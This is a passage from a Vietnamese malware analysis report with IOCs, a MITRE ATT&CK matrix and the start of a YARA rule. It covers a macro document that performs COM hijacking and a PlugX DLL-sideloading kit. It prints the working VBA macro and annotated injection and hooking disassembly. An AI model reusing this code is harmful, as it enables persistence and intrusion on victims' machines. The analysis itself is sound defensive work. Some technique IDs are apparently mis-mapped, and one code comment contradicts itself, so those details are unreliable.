Tại phần số 5 (`editdata.mso`), tệp tin chứa cấu trúc OLE Document được nén bằng thuật toán zlib của định dạng **ActiveMime** (header `ActiveMime` tại offset 0, luồng zlib bắt đầu tại offset `0x32`). Khi giải nén, mã nguồn VBA được kích hoạt tự động qua sự kiện `Document_Open()`:

```visualbasic
Private Sub Document_Open()
    On Error Resume Next
    Dim sAppData As String
    sAppData = Environ("APPDATA")
    sAppData = sAppData & "\main_background.png"
    Dim myWS As Object, strPath
    Set myWS = CreateObject("WScript.Shell")
    Set fsoCheck = VBA.CreateObject("Scripting.FileSystemObject")
    Dim iCheck As Boolean
    iCheck = False
    
    ' Kiểm tra hệ thống có phải là WoW64 (HĐH 64-bit chạy Word 32-bit)
    #If Win64 Then
    #Else
        If (fsoCheck.FileExists("C:\Windows\SysWOW64\cmd.exe") = True) Then
            iCheck = True
        Else
            iCheck = False
        End If
    #End If
    
    ' Thực hiện COM Hijacking
    If iCheck = True Then
        Dim wsh As Object
        Set wsh = VBA.CreateObject("WScript.Shell")
        Dim waitOnReturn As Boolean: waitOnReturn = True
        Dim windowStyle As Integer: windowStyle = 0
        ' Ghi đè vào Registry View 64-bit bằng cmd reg add /reg:64
        wsh.Run "cmd.exe /S /C reg add HKEY_CURRENT_USER\Software\Classes\CLSID\{2DEA658F-54C1-4227-AF9B-260AB5FC3543}\InprocServer32 /ve /t REG_SZ /d " & sAppData & " /f /reg:64", windowStyle, waitOnReturn
    Else
        ' Ghi đè trực tiếp qua WScript.Shell cho môi trường 32-bit thuần túy
        If RegKeyExists("HKEY_CURRENT_USER\Software\Classes\CLSID\") = False Then
            myWS.RegWrite "HKEY_CURRENT_USER\Software\Classes\CLSID\", "", "REG_SZ"
        End If
        If RegKeyExists("HKEY_CURRENT_USER\Software\Classes\CLSID\{2DEA658F-54C1-4227-AF9B-260AB5FC3543}\InprocServer32\") = False Then
            If RegKeyExists("HKEY_CURRENT_USER\Software\Classes\CLSID\{2DEA658F-54C1-4227-AF9B-260AB5FC3543}\") = False Then
                myWS.RegWrite "HKEY_CURRENT_USER\Software\Classes\CLSID\{2DEA658F-54C1-4227-AF9B-260AB5FC3543}\", "", "REG_SZ"
            End If
            myWS.RegWrite "HKEY_CURRENT_USER\Software\Classes\CLSID\{2DEA658F-54C1-4227-AF9B-260AB5FC3543}\InprocServer32\", sAppData, "REG_SZ"
        End If
    End If

    ' Trích xuất DLL nhị phân từ Table 1 trong văn bản và giải mã Base64
    Dim b As String, a As String
    Dim tableNew As Table
    Set tableNew = ActiveDocument.Tables(1)
    If (iCheck = True) Then
        ' Hệ 64-bit/WoW64: Lấy Cell(1, 1) chứa DLL x86
        a = tableNew.Cell(1, 1).Range.Text
        a = Left(a, Len(a) - 2)
        b = Base64Decode(a, sAppData)
    Else
        ' Hệ 32-bit: Lấy Cell(1, 2) chứa DLL x64
        a = tableNew.Cell(1, 2).Range.Text
        a = Left(a, Len(a) - 2)
        b = Base64Decode(a, sAppData)
    End If
End Sub
```

#### Phân tích Kỹ thuật COM Hijacking:
1. **Mục tiêu can thiệp:** Khóa Registry `InprocServer32` của đối tượng COM CLSID `{2DEA658F-54C1-4227-AF9B-260AB5FC3543}`.
2. **Cơ chế ưu tiên:** Trong Windows, khi một tiến trình yêu cầu khởi tạo COM CLSID, Windows sẽ tìm kiếm trong `HKEY_CURRENT_USER\Software\Classes\CLSID` **trước khi** tìm kiếm trong `HKEY_LOCAL_MACHINE\Software\Classes\CLSID`. Do đó, kẻ tấn công chỉ cần quyền User thông thường (không cần UAC bypass hay Admin) vẫn có thể cướp quyền điều khiển đối tượng COM.
3. **Ngụy trang đuôi tệp:** Tệp DLL được lưu với tên `%APPDATA%\main_background.png`. Khi Windows kích hoạt đối tượng COM này, hàm API `CoCreateInstance` sẽ gọi `LoadLibraryW("%APPDATA%\\main_background.png")`. Trình nạp PE của Windows chỉ quan tâm đến cấu trúc nhị phân (Magic byte `MZ`), hoàn toàn không quan tâm đến phần mở rộng `.png`.

---

### 2.3. Giải mã Nhị phân PE x86/x64 từ Bảng Dữ liệu Word Document

Trong phần `nb2.htm`, dữ liệu nhị phân của 2 thư viện DLL độc hại được kẻ tấn công giấu dưới dạng văn bản Base64 nằm trong các ô `<td>` của `Table 1` (được mã hóa dạng Quoted-Printable MIME):

```html
<table class=MsoNormalTable border=0 cellspacing=0 cellpadding=0 ...>
  <tr>
    <!-- Ô Cell 1: DLL x86 (WoW64) -->
    <td width=295 valign=top ...>
      <p class=MsoNormal><span>TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQ...</span></p>
    </td>
    <!-- Ô Cell 2: DLL x64 -->
    <td width=295 valign=top ...>
      <p class=MsoNormal><span>TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQ...</span></p>
    </td>
  </tr>
</table>
```

#### Thông số 2 Tệp DLL Bóc tách Được:

| Thuộc tính | Tệp DLL x86 (Cell 1 - Dành cho WoW64) | Tệp DLL x64 (Cell 2 - Dành cho x64 Native) |
| :--- | :--- | :--- |
| **Kích thước sau giải mã** | **297,472 bytes** | **292,352 bytes** |
| **MD5** | `5f7f60e9fcc992794feb2d6e9908d1c3` | `3b36fb3a8cf15b0c5a288329e357e916` |
| **SHA256** | `18cc477fb8f4c147f3c31d0fdbb5ab8fdff12a75bb9b23e3c3927090537eff41` | `fd33b2952127554ffcf3940a35fa18a0cb035847eb685a5b6a94555cd825baeb` |
| **Kiến trúc PE** | `IMAGE_FILE_MACHINE_I386` (`0x14C`) | `IMAGE_FILE_MACHINE_AMD64` (`0x8664`) |
| **Các Section** | `.text`, `.rdata`, `.data`, `.gfids`, `.rsrc`, `.reloc` | `.text`, `.rdata`, `.data`, `.pdata`, `.gfids`, `.rsrc`, `.reloc` |
| **Bảng hàm Import chính** | `WriteProcessMemory`, `OpenProcess`, `Sleep`, `GetModuleHandleA` | `WriteProcessMemory`, `OpenProcess`, `Sleep`, `GetModuleHandleA` |

---

### 2.4. Cơ chế Anti-Sandbox & Process Injection trong Bộ nhớ

Khi DLL `main_background.png` được nạp vào không gian nhớ qua `LoadLibrary`, hàm `DllMain` tại `0x10001070` thực thi chuỗi hành vi nguy hại:

```asm
; --- 1. Anti-Sandbox Evasion ---
0x10001079: push 0x2710                     ; Tham số 10,000 miligiây (10 giây)
0x1000107e: call dword ptr [0x1000c00c]     ; Gọi KERNEL32!Sleep(10000)
0x1000109b: call 0x10001010                 ; Gọi hàm Inject Shellcode

; --- 2. Hàm Tiêm Bộ nhớ tại 0x10001010 ---
0x10001011: call dword ptr [0x1000c01c]     ; KERNEL32!GetCurrentProcessId()
0x10001017: push eax                        ; PID hiện tại
0x10001018: push 0                          ; bInheritHandle = FALSE
0x1000101a: push 0x1fffff                   ; dwDesiredAccess = PROCESS_ALL_ACCESS
0x1000101f: call dword ptr [0x1000c008]     ; KERNEL32!OpenProcess() -> Trả về hProcess (edi)
0x1000102b: push esi
0x1000102c: push 0x40                       ; flProtect = PAGE_EXECUTE_READWRITE
0x1000102e: push 0x3000                     ; flAllocationType = MEM_COMMIT | MEM_RESERVE
0x10001033: push 0x37088                    ; dwSize = 225,416 bytes
0x10001038: push 0                          ; lpAddress = NULL
0x1000103a: push edi                        ; hProcess
0x1000103b: call dword ptr [0x1000c018]     ; KERNEL32!VirtualAllocEx() -> Vùng nhớ RWX mới
0x10001041: push 0
0x10001043: push 0x37088                    ; Kích thước cần ghi: 225,416 bytes
0x10001048: push 0x10012760                 ; Địa chỉ nguồn: Khối dữ liệu tại section .data
0x1000104d: mov esi, eax                    ; Địa chỉ đích vùng RWX vừa cấp phát
0x1000104f: push esi
0x10001050: push edi                        ; hProcess
0x10001051: call dword ptr [0x1000c000]     ; KERNEL32!WriteProcessMemory()
0x1000105b: push 0
0x1000105d: push 0
0x1000105f: push 0
0x10001061: push esi                        ; lpStartAddress = Địa chỉ khối shellcode RWX
0x10001062: push 0
0x10001064: push 0
0x10001066: call dword ptr [0x1000c010]     ; KERNEL32!CreateThread() -> Thực thi Shellcode
```

#### Các Bước Thực thi:
1. **Sleep Delay (Anti-Sandbox):** Tạm dừng luồng thực thi trong đúng 10 giây (`0x2710` ms). Hầu hết các hệ thống phân tích hộp cát tự động có giới hạn phân tích tài liệu văn bản từ 30 – 60 giây; việc đưa lệnh `Sleep` vào trước khi thực thi payload giúp né tránh sự theo dõi hành vi ban đầu.
2. **Tự chiếm toàn quyền tiến trình:** Gọi `OpenProcess(0x1fffff, 0, GetCurrentProcessId())` để nhận handle có quyền `PROCESS_ALL_ACCESS`.
3. **Cấp phát bộ nhớ RWX:** Cấp phát một vùng nhớ lớn dung lượng **225,416 bytes** (`0x37088`) với cờ `PAGE_EXECUTE_READWRITE` (`0x40`).
4. **Sao chép Shellcode:** Sao chép khối dữ liệu độc hại từ section `.data` của DLL (bắt đầu tại VA `0x10012760`) vào vùng nhớ RWX.
5. **Kích hoạt luồng riêng biệt:** Tạo một thread mới bằng `CreateThread` trỏ thẳng vào đầu vùng nhớ RWX để thực thi độc lập với luồng chính của ứng dụng Word.

---

### 2.5. Phân tích Khối Shellcode & Sub-PE Giai đoạn 3 (WinHTTP Downloader)

Khối shellcode 225KB được bắt đầu bằng kỹ thuật mã không phụ thuộc vị trí nạp (Position Independent Code - PIC):

```asm
0x0000: call 5              ; Push địa chỉ EIP của lệnh tiếp theo vào stack
0x0005: pop ecx             ; ecx = 0x0005 (Lấy địa chỉ thực thi hiện tại trong bộ nhớ)
0x0006: sub ecx, 5          ; ecx = Địa chỉ gốc của Shellcode (Base Address)
0x0009: lea ecx, [ecx + 0xfc8]
0x000f: pushal 
0x0010: push ecx
0x0011: call 0x18
...
0x0021: mov eax, dword ptr fs:[0x18] ; Đọc Thread Environment Block (TEB)
0x002a: mov eax, dword ptr [eax + 0x30] ; Đọc Process Environment Block (PEB)
```

#### Phân tích Cơ chế Reflective Loader:
1. Shellcode duyệt qua danh sách module nạp trong PEB (`InMemoryOrderModuleList`) để tìm địa chỉ cơ sở của `kernel32.dll`.
2. Nó tự phân giải địa chỉ các API thiết yếu (`VirtualAlloc`, `VirtualProtect`, `LoadLibraryA`, `GetProcAddress`).
3. **Phát hiện Sub-PE nhúng:** Tại offset `0x1088` (hex của 4,232 bytes) bên trong khối shellcode là một **tệp tin PE 32-bit hoàn chỉnh thứ hai** (Magic byte `MZ`, Section `.text`, `.rdata`, `.data`, `.rsrc`, `.reloc`). Shellcode đóng vai trò một Reflective PE Loader để nạp Sub-PE này trực tiếp vào bộ nhớ mà không cần lưu xuống đĩa.

#### Phân tích Chức năng của Sub-PE (WinHTTP Downloader Stage 3):
Sub-PE được biên dịch bằng Microsoft Visual C++ và tích hợp thư viện giao tiếp mạng `WINHTTP.dll`:
* **Bảng hàm WinHTTP nạp động:** `WinHttpOpen`, `WinHttpConnect`, `WinHttpOpenRequest`, `WinHttpSendRequest`, `WinHttpReceiveResponse`, `WinHttpReadData`, `WinHttpQueryHeaders`, `WinHttpCloseHandle`.
* **Tham số dòng lệnh hỗ trợ:**
  ```text
  -u Url -t Time(Milisecond)
  ```
* **Dấu vết HTTP Header đặc trưng:**
  * **User-Agent:** `Mozilla/5.0 (Windows NT 10.0; Win32; x32; rv:60.0)`
  * **Accept Header:** `Accpet: */*` *(Chú ý: Chứa lỗi chính tả cố hữu của tác giả: chữ "Accpet" thay vì "Accept")*.
* **Hành vi mạng:** Kết nối định kỳ tới URL được cấu hình qua cả HTTP (cổng 80) và HTTPS (cổng 443), thực hiện tải về các payload giai đoạn tiếp theo (Stage 4 - RAT / Shellcode) và giải mã thực thi trực tiếp trong không gian tiến trình Word.

---

## Phần 3: Phân tích Chi tiết Mẫu 3 — c.rar (Bộ Kit DLL Sideloading Triad)

### 3.1. Mô hình Tấn công Kiềng Ba Chân (APT Sideloading Triad)

Bộ mẫu trong `c.rar` đại diện cho kỹ thuật tấn công kinh điển của họ mã độc gián điệp **PlugX / Korplug**, thường được các nhóm APT sử dụng rộng rãi nhằm vượt mặt các giải pháp Whitelisting và EDR hiện đại:

```
[c.rar] (Bộ 3 tệp)
   |
   +--> McAfee.exe (140,576 B)    : Tệp sạch hợp pháp, có chữ ký số của McAfee Inc.
   |
   +--> McUtil.dll (3,072 B)      : Thư viện DLL giả mạo đóng vai trò Sideload Loader
   |
   +--> McUtil.dll.mc (116,946 B) : Dữ liệu Shellcode Payload PlugX đã được mã hóa
```



---

### 3.2. Phân tích Tệp Thực thi Hợp pháp McAfee.exe (`mcoemcpy.exe`)

* **Tên tệp gốc trong PE Resource:** `mcoemcpy.exe`
* **Mô tả tệp (File Description):** McAfee OEM Info Copy Files (Phiên bản: `2.1.115.0`)
* **Bản quyền:** Copyright © 2006 McAfee, Inc.
* **Kích thước:** 140,576 bytes
* **Mã băm SHA256:** `3124fcb79da0bdf9d0d1995e37b06f7929d83c1c4b60e38c104743be71170efe`
* **MD5:** `884d46c01c762ad6ddd2759fd921bf71`
* **Chữ ký số (Authenticode):** Tệp tin sở hữu chứng chỉ số x.509 hợp lệ ký bởi **McAfee, Inc.** (Security Directory tại RVA `0x21000`, kích thước 5,408 bytes).

#### Nguyên lý Khai thác DLL Search Order Hijacking:
Tiến trình `mcoemcpy.exe` khi khởi động có nhu cầu nạp thư viện bổ trợ `McUtil.dll`. Theo thứ tự tìm kiếm DLL mặc định của Windows (`Search Order`):
1. **Thư mục chứa ứng dụng khởi chạy (Application Directory) $\rightarrow$ Ưu tiên số 1**
2. Thư mục hệ thống (`C:\Windows\System32`)
3. Thư mục Windows (`C:\Windows`)
4. Thư mục hiện hành (Current Directory)
5. Các đường dẫn trong biến môi trường `PATH`

Kẻ tấn công không sửa đổi bất kỳ byte nào của `McAfee.exe` (giữ nguyên tính toàn vẹn chữ ký số), mà chỉ cần đặt tệp `McUtil.dll` độc hại vào cùng thư mục. Khi `McAfee.exe` khởi chạy, hệ điều hành ưu tiên nạp ngay `McUtil.dll` giả mạo.

---

### 3.3. Thư viện Độc hại McUtil.dll & Kỹ thuật Inline API Hooking

* **Kích thước:** Cực kỳ nhỏ gọn: **3,072 bytes** (3 KB).
* **Mã băm SHA256:** `021e2269e61dec54aab5df2477a7fc24bc7449944c53634d611e826e343e32f4`
* **MD5:** `fe6f322a0c3e25947988d6fad92637b2`
* **Exports:** Không chứa bất kỳ hàm export nào (không cần cung cấp hàm chức năng, chỉ cần được nạp qua `DllMain`).
* **Imports tĩnh:** Chỉ import duy nhất 5 API từ `KERNEL32.dll`: `GetProcAddress`, `GetModuleFileNameW`, `GetSystemTime`, `VirtualProtect`, `GetModuleHandleA`. Tất cả các API nguy hiểm khác đều được giải mã chuỗi và nạp động qua `GetProcAddress`.

#### Bước 1: Kích hoạt Hẹn giờ (Time-bomb Delay Logic)
Tại hàm `0x10001100`, mã độc gọi `GetSystemTime` để lấy thời gian hệ thống và thực hiện phép toán kiểm tra:

```asm
0x10001108: call dword ptr [0x10002008]     ; KERNEL32!GetSystemTime(&SYSTEMTIME)
0x1000110e: movzx ecx, word ptr [esp + 4]   ; ecx = wYear
0x10001113: movzx edx, word ptr [esp + 6]   ; edx = wMonth
0x10001118: imul ecx, ecx, 0x64             ; ecx = Year * 100
0x1000111b: movzx eax, word ptr [esp + 0xa] ; eax = wDay
0x10001120: add ecx, edx                    ; ecx = Year * 100 + Month
0x10001122: imul ecx, ecx, 0x64             ; ecx = (Year * 100 + Month) * 100
0x10001125: add ecx, eax                    ; ecx = Year * 10000 + Month * 100 + Day
0x10001127: cmp ecx, 0x1335045              ; So sánh với giá trị 0x1335045
0x1000112d: jge 0x10001135                  ; Nếu >= 0x1335045 thì kích hoạt Hook
0x1000112f: xor eax, eax                    ; Ngược lại: trả về 0 và thoát
0x10001134: ret 
```

* **Giải mã giá trị `0x1335045`:** Đổi sang hệ thập phân: `0x1335045` = **`20140101`** (tương ứng ngày **01 tháng 01 năm 2014**).
* *Ý nghĩa chiến thuật:* Đây là kỹ thuật Time-bomb Evasion cổ điển của APT. Trước ngày 01/01/2014, mã độc hoàn toàn "ngủ đông" (trả về 0, không can thiệp bộ nhớ) để vượt qua các máy quét tự động của phòng lab diệt virus lúc mới phát tán.

#### Bước 2: Thiết lập Inline Hook trên McAfee.exe
Nếu ngày hệ thống thỏa mãn điều kiện, mã độc tiến hành can thiệp trực tiếp vào mã máy của tiến trình mẹ `McAfee.exe`:

```asm
0x10001136: push 0
0x10001138: call dword ptr [0x10002010]     ; GetModuleHandleA(NULL) -> Base của McAfee.exe
0x10001142: push ecx                        ; &oldProtect
0x10001143: push 0x40                       ; PAGE_EXECUTE_READWRITE
0x10001145: mov esi, eax                    ; esi = McAfeeBase (thường là 0x00400000)
0x10001147: push 0x10                       ; Kích thước 16 bytes
0x10001149: add esi, 0x2f0c                 ; Mục tiêu Hook = McAfeeBase + 0x2f0c
0x1000114f: push esi
0x10001150: call dword ptr [0x1000200c]     ; KERNEL32!VirtualProtect()
; Tính khoảng cách tương đối: Offset = 0x10001000 - (McAfeeBase + 0x2f0c) - 5
0x10001169: mov edx, 0x10001000
0x1000116e: sub edx, esi
0x10001170: sub edx, 5
0x10001173: mov dword ptr [0x10003000], edx
; Ghi đè 5 byte opcode: JMP rel32 (0xE9 xx xx xx xx)
0x10001179: mov byte ptr [esi], 0xe9        ; Opcode JMP
0x1000117e: mov al, byte ptr [0x10003000]
0x10001183: mov byte ptr [esi + 1], al      ; Byte 1 của relative offset
0x1000118e: shr edx, 8
0x10001191: mov byte ptr [esi + 2], dl      ; Byte 2
...
```

* **Vị trí bị can thiệp:** `McAfee.exe + 0x2f0c`.
* **Cơ chế:** Ngay sau khi `DllMain` trả về, luồng khởi động của `McAfee.exe` tiếp tục chạy bình thường cho đến khi chạm vào lệnh tại offset `0x2f0c`. Tại đây, lệnh `JMP` bị tiêm sẽ lập tức chuyển hướng con trỏ lệnh EIP sang hàm độc hại `0x10001000` của `McUtil.dll`.

---

### 3.4. Logic Kích hoạt Hẹn giờ (Time-bomb Delay) & Nạp Khối McUtil.dll.mc

Tại hàm xử lý Hook `0x10001000`:

```asm
; 1. Nạp VirtualAlloc động và cấp phát bộ nhớ
0x1000100f: push 0x10002018                 ; "kernel32.dll"
0x10001014: call edi                        ; GetModuleHandleA / LoadLibraryA
0x1000101c: push 0x10002028                 ; "VirtualAlloc"
0x10001021: push eax
0x10001022: call ebx                        ; GetProcAddress
0x10001024: push 0x40                       ; PAGE_EXECUTE_READWRITE
0x10001026: push 0x1000                     ; MEM_COMMIT
0x1000102b: push 0x10007b                   ; Kích thước = 1,048,699 bytes (~1MB)
0x10001030: push 0
0x10001032: call eax                        ; VirtualAlloc() -> Trả về buffer RWX (esi)

; 2. Lấy đường dẫn tệp McAfee.exe và đổi tên thành McUtil.dll.mc
0x10001034: push 0x101b
0x10001039: mov esi, eax
0x1000103b: push esi
0x1000103c: push 0
0x1000103e: call dword ptr [0x10002004]     ; GetModuleFileNameW(NULL, buffer, 0x101b)
; Duyệt ngược tìm ký tự '\' (0x5c)
0x10001061: cmp word ptr [esi + ecx*2], 0x5c
0x10001066: je 0x10001072
...
; Nối chuỗi "McUtil.dll.mc" vào sau dấu '\' bằng lstrcpyW
0x10001072: push 0x10002044                 ; L"McUtil.dll.mc"
0x10001077: lea ecx, [esi + ecx*2 + 2]
0x1000107b: push ecx
0x1000107c: call eax                        ; lstrcpyW()

; 3. Mở và nạp dữ liệu từ McUtil.dll.mc
0x10001085: push 0x10002060                 ; "CreateFileW"
...
0x10001091: push 3                          ; OPEN_EXISTING
0x10001095: push 1                          ; FILE_SHARE_READ
0x10001097: push 0x80000000                 ; GENERIC_READ
0x1000109c: push esi                        ; Đường dẫn tới McUtil.dll.mc
0x1000109d: call eax                        ; CreateFileW()
...
0x100010b1: push 0x1000206c                 ; "ReadFile"
0x100010c2: push 0x10007b                   ; Đọc toàn bộ dữ liệu vào buffer RWX
0x100010c9: call eax                        ; ReadFile()

; 4. Kích hoạt trực tiếp Shellcode Payload
0x100010cb: pushal 
0x100010cc: mov ecx, 0
0x100010d1: push ecx
0x100010d2: mov ecx, dword ptr [ebp - 0xc]  ; Địa chỉ buffer chứa McUtil.dll.mc
0x100010d5: call ecx                        ; CALL TRỰC TIẾP VÀO SHELLCODE!
0x100010d7: popal 

; 5. Duy trì tiến trình ngầm (Infinite Sleep)
0x100010e3: push 0x10002078                 ; "Sleep"
...
0x100010ef: push -1                         ; Tham số dwMilliseconds = 0xFFFFFFFF (Vô hạn)
0x100010f1: call eax                        ; Sleep(INFINITE)
```

#### Phân tích Các Bước:
1. Cấp phát **1,048,699 bytes** (`0x10007B`) bộ nhớ RWX bằng `VirtualAlloc`.
2. Định vị tệp payload `McUtil.dll.mc` trong cùng thư mục chạy bằng `GetModuleFileNameW` và `lstrcpyW`.
3. Đọc toàn bộ 116,946 bytes từ tệp `McUtil.dll.mc` vào vùng nhớ thực thi bằng `CreateFileW` và `ReadFile`.
4. Gọi trực tiếp `call ecx` vào buffer để trao quyền điều khiển cho khối shellcode PlugX.
5. Sau khi payload khởi tạo các luồng ngầm xong, luồng cha được đưa vào trạng thái **`Sleep(INFINITE)`**. Nhờ đó, tiến trình `McAfee.exe` không bao giờ kết thúc, duy trì vỏ bọc của một tiến trình bảo mật hợp pháp trong hệ thống.

---

### 3.5. Cấu trúc Khối Shellcode McUtil.dll.mc & Kỹ thuật Chống Dịch ngược (Anti-Disassembly)

* **Tên tệp:** `McUtil.dll.mc`
* **Kích thước:** 116,946 bytes
* **Mã băm SHA256:** `58648fed34d7617c3217af047f331cb8e16012b8ae7d4fdebf77e31f6fa79cb5`
* **MD5:** `402a04ce4f1ebda0e8e9447b1fb7a4ee`

Khối shellcode này áp dụng kỹ thuật **Opaque Predicates** và chèn mã rác (Junk Code Insertion) cực kỳ dày đặc để chống lại các công cụ dịch ngược tĩnh tuyến tính (Linear Sweep Disassemblers như IDA Pro, Ghidra, OllyDbg):

```asm
0x0000: inc edi
0x0001: jno 6               ; Nhảy nếu không tràn
0x0003: jo 6                ; Nhảy nếu tràn -> Luôn luôn nhảy tới offset 0x06!
0x0005: jne 0x7d            ; Byte rác gây lỗi phân tích
...
0x005b: jb 0x61             ; Nhảy nếu cờ Carry = 1
0x005e: jae 0x61            ; Nhảy nếu cờ Carry = 0 -> Luôn luôn nhảy tới 0x61!
0x0060: jbe 0x4b            ; Byte opcode 0xE8 (CALL giả) nằm tại đây để bẫy disassembler
...
0x0095: jbe 0x9a
0x0097: ja 0x9a             ; Luôn luôn nhảy tới 0x9a, bỏ qua byte rác tại 0x99
...
0x00fb: jb 0x100
0x00fd: jae 0x100           ; Luôn luôn nhảy tới 0x100
```

#### Nguyên lý Kỹ thuật:
Cặp lệnh nhảy điều kiện đối lập nhau (như `jb` và `jae`, hoặc `jo` và `jno`) có cùng đích nhảy thực chất tương đương với một lệnh `JMP` vô điều kiện. Tuy nhiên, kẻ tấn công cố ý đặt một byte `0xE8` (mã opcode của lệnh `CALL`) vào ngay giữa. Các công cụ dịch ngược tuyến tính sẽ hiểu lầm `0xE8` là bắt đầu của một lệnh gọi hàm 5-byte, dẫn đến việc giải mã toàn bộ chuỗi lệnh tiếp theo bị sai lệch độ lệch (Disassembly Desynchronization).

Sau khi vượt qua stub giải mã obfuscation, `McUtil.dll.mc` bung ra payload PlugX hoàn chỉnh với đầy đủ các tính năng:
* Đánh cắp thông tin bàn phím (Keylogger).
* Quản lý tệp tin, tiến trình và registry từ xa.
* Port forwarding và mở kênh điều khiển Shell ngầm qua cổng 443.

---

## 5. Bảng Chỉ số Thỏa hiệp Tổng hợp (Consolidated IOCs)

### 5.1. Bảng Mã băm Tệp tin (File Hashes)

| Mẫu / Thành phần | Kích thước | Mã MD5 | Mã SHA256 |
| :--- | :--- | :--- | :--- |
| **`a.exe`** (Mẫu 1) | 20,481 B | `bc45beb8b862d2136a070ae793685386` | `2fb960b07ee894043007a1f3be2ff985863c27be4bd9f50b3ddb735963e113b9` |
| **`malw.rtf`** (Mẫu 2) | 949,986 B | `0a5a0c889fd8772da489a327d4fdd8d6` | `61182036fd1e668ad818f64c351034344b54f92793b0dcc52045cb221f9bb2c2` |
| **`main_background.png` (x86)** | 297,472 B | `5f7f60e9fcc992794feb2d6e9908d1c3` | `18cc477fb8f4c147f3c31d0fdbb5ab8fdff12a75bb9b23e3c3927090537eff41` |
| **`main_background.png` (x64)** | 292,352 B | `3b36fb3a8cf15b0c5a288329e357e916` | `fd33b2952127554ffcf3940a35fa18a0cb035847eb685a5b6a94555cd825baeb` |
| **`McAfee.exe`** (Mẫu 3 - Signed) | 140,576 B | `884d46c01c762ad6ddd2759fd921bf71` | `3124fcb79da0bdf9d0d1995e37b06f7929d83c1c4b60e38c104743be71170efe` |
| **`McUtil.dll`** (Mẫu 3 - Loader) | 3,072 B | `fe6f322a0c3e25947988d6fad92637b2` | `021e2269e61dec54aab5df2477a7fc24bc7449944c53634d611e826e343e32f4` |
| **`McUtil.dll.mc`** (Mẫu 3 - Payload) | 116,946 B | `402a04ce4f1ebda0e8e9447b1fb7a4ee` | `58648fed34d7617c3217af047f331cb8e16012b8ae7d4fdebf77e31f6fa79cb5` |

### 5.2. Dấu vết Mạng (Network & C2 Indicators)

| Loại chỉ số | Giá trị | Ngữ cảnh sử dụng |
| :--- | :--- | :--- |
| **Dead-Drop URL 1** | `http://kumardeep.sosblogs.com/The-first-blog-b1/RSS-b1-rss2-posts.htm` | Mẫu 1 (Truy vấn C2 URL từ title RSS) |
| **Dead-Drop URL 2** | `http://blogs.rediff.com/anilchopra/feed/` | Mẫu 1 (Kênh RSS dự phòng) |
| **Dead-Drop URL 3** | `http://www.blogster.com/kapoorsunil09/profile/rss` | Mẫu 1 (Kênh RSS dự phòng) |
| **User-Agent 1** | `Mozilla/5.0 (Windows NT 10.0; Win32; x32; rv:60.0)` | Mẫu 2 (Sub-PE WinHTTP Downloader) |
| **User-Agent 2** | `Mozilla/5.0 (Windows; U; Windows NT 5.1; rv:1.9.1) Gecko/20090624 Firefox/3.5` | Mẫu 1 (WMI Script XMLHttp) |
| **HTTP Header** | `Accpet: */*` (Typo cố ý của tác giả) | Mẫu 2 (WinHTTP Request Header) |

### 5.3. Dấu vết Hệ thống & Khóa Registry (Host Artifacts)

| Loại dấu vết | Chi tiết / Đường dẫn | Tác động |
| :--- | :--- | :--- |
| **WMI Consumer** | `root\subscription:ActiveScriptEventConsumer.Name="ProbeScriptFint"` | Bám trụ thực thi JavaScript ngầm |
| **WMI Timer** | `root\subscription:__IntervalTimerInstruction.Timerid="ProbeScriptFint"` | Kích hoạt chu kỳ mỗi 6,000 ms |
| **WMI Filter** | `root\subscription:__EventFilter.Name="ProbeScriptFint"` | Lọc sự kiện timer |
| **Registry Key** | `HKCU\Software\Classes\CLSID\{2DEA658F-54C1-4227-AF9B-260AB5FC3543}\InprocServer32` | COM Hijack trỏ vào `main_background.png` |
| **Tệp tin nguy hại** | `C:\Windows\system32\Instell.exe` | File nhị phân ngụy trang của Mẫu 1 |
| **Tệp nhật ký** | `C:\Windows\system32\httpcom.log` | Ghi log hoạt động của Mẫu 1 |
| **Tệp DLL giả ảnh** | `%APPDATA%\main_background.png` | DLL độc hại trích xuất từ Mẫu 2 |
| **Tệp nhị phân PlugX**| `McUtil.dll` và `McUtil.dll.mc` | DLL giả mạo và Shellcode của Mẫu 3 |

---

## 6. Ma trận Đối chiếu MITRE ATT&CK

| Giai đoạn Tấn công (Tactic) | Kỹ thuật (Technique ID & Name) | Mẫu 1 (a.exe) | Mẫu 2 (malw.rtf) | Mẫu 3 (Triad Kit) |
| :--- | :--- | :---: | :---: | :---: |
| **Initial Access (TA0001)** | Phishing: Spearphishing Attachment (`T1566.001`) | | 🟢 | |
| **Execution (TA0002)** | Command and Scripting Interpreter: WMI (`T1059.005`) | 🟢 | | |
| | Visual Basic for Applications Macro (`T1059.005`) | | 🟢 | |
| **Persistence (TA0003)** | Event Triggered: WMI Event Subscription (`T1546.003`) | 🟢 | | |
| | Hijack Execution Flow: COM Hijacking (`T1574.002`) | | 🟢 | |
| | Hijack Execution Flow: DLL Search Order Hijacking (`T1574.001`) | | | 🟢 |
| **Defense Evasion (TA0005)** | Masquerading: Typosquatting File Name (`T1036.005`) | 🟢 | 🟢 | |
| | Indicator Removal: Timestomp (`T1070.006`) | 🟢 | | |
| | Process Injection: Memory Allocation (`T1055`) | | 🟢 | 🟢 |
| | Obfuscated Files or Information (`T1027`) | 🟢 | 🟢 | 🟢 |
| | Subvert Trust Controls: Install Signed Binary (`T1553.002`) | | | 🟢 |
| | Time Based Evasion: Delayed Execution (`T1497.003`) | | 🟢 | 🟢 |
| **Discovery (TA0007)** | System Information Discovery (`T1082`) | 🟢 | | |
| | System Network Configuration Discovery (`T1016`) | 🟢 | | |
| **Command and Control (TA0011)** | Web Service: Dead-Drop Resolver (`T1102.001`) | 🟢 | | |
| | Application Layer Protocol: HTTP/HTTPS (`T1071.001`) | 🟢 | 🟢 | 🟢 |

---

## 7. Bộ Quy tắc Nhận diện (YARA Rules) & Kịch bản Ứng phó Sự cố (Incident Response)

### 7.1. Bộ Quy tắc YARA Chuẩn hóa

```yara
/*
 * Quy tắc nhận diện Mẫu 1: APT30 WMI ActiveScript Dropper
 */
rule APT30_WMI_ActiveScript_Dropper {
    meta:
        description = "Detects APT30 / Naikon WMI Event Consumer Dropper (a.exe)"
        author = "Antigravity Threat Intelligence"
        date = "2026-10-13"
        hash = "2fb960b07ee894043007a1f3be2ff985863c27be4bd9f50b3ddb735963e113b9"
    strings:
        $s1 = "Instell.exe" ascii nocase
        $s2 = "httpcom.log" ascii nocase
        $s3 = "ProbeScriptFint" ascii wide
        $s4 = "ActiveScriptEventConsumer" ascii wide
        $s5 = "JavaScript" wide
    condition:
